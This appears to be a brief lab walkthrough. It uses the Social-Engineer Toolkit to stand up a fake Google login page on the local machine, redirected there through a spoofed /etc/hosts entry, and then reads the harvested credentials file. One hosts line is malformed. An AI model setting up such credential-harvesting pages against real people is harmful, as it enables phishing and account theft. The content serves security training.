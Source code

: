 # SET

## Open hosts file
```
sudo nano /etc/hosts
```

## add spoofed google.com entry
```
127.0.0.1        google.com
google.com   127.0.0.1
```

#### ping to check
```
ping -c 1 google.com
```

## Start up SET toolkit
```
sudo setoolkit
[enter]
```

Output:
```
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]

        Welcome to the Social-Engineer Toolkit (SET). 
         The one stop shop for all of your SE needs.

     Join us on irc.freenode.net in channel #setoolkit

   The Social-Engineer Toolkit is a product of TrustedSec.

             Visit: https://www.trustedsec.com

 Select from the menu:

   1) Social-Engineering Attacks
   2) Fast-Track Penetration Testing
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

set> 
```

## Use the social engineering attacks
```
1
[enter]
```

## Select using web template for credential harvesting attack
```Select the website attack vectors (2) and then the credential harvesting vector (3) then select the templates option (1)```

## Enter loopback address for return traffic
```
127.0.0.1
```

## Template selection
```select Google (2)```

## Attempt to login to Google
```
w3m google.com
```
```
[ctrl + c]
q
y
```
## Read harvested credentials
```
cat /var/www/html/harvester_<timestamp>.txt
```
